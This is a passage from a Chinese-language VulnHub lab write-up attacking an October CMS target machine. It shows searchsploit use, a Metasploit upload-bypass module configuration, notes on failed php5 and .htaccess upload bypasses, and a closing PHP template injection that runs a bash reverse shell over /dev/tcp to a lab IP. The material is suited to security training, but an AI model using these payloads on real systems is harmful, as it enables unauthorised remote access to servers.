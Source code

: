![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/11.png)

2 个 XSS 怎么用啊🤣，后来才发现是我搜索姿势不对

```bash
searchsploit october cms
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/12.png)

要加个空格我是服气的..接下来访问搜出的这几个漏洞。

**October CMS - Upload Protection Bypass Code Execution (Metasploit)**

```bash
msfconsole
use exploit/multi/http/october_upload_bypass_exec
set rhosts 192.168.1.249
set lhost 192.168.1.248
set password adminadmin2
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/13.png)

利用完毕但未回弹成功,那么换下一个

**October CMS 1.0.412 - Multiple Vulnerabilities**

- https://www.exploit-db.com/exploits/41936

大致描述了 bypass 上传和上传 .htaccess 的利用方法,还有资产管理中的 php 代码执行,既然 msf 没成功那就手动试试

- **bypass 上传**

    意思是黑名单中没有包含 php5 后缀的文件

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/14.png)

    看来不好利用这个

- **.htaccess 上传**

    不出所料,同样无法上传

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/14.png)

- **PHP code execution via asset management**

    本质上还是 php5 后缀绕过,还是无法利用

    ![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/It’s_October/It’s_October1/15.png)

---

后来搜了一下在新建页面时可以在模板中注入 php 代码

```php
function onstart(){
              exec("/bin/bash -c 'bash -i > /dev/tcp/192.168.1.248/4444 0>&1'";
}
```
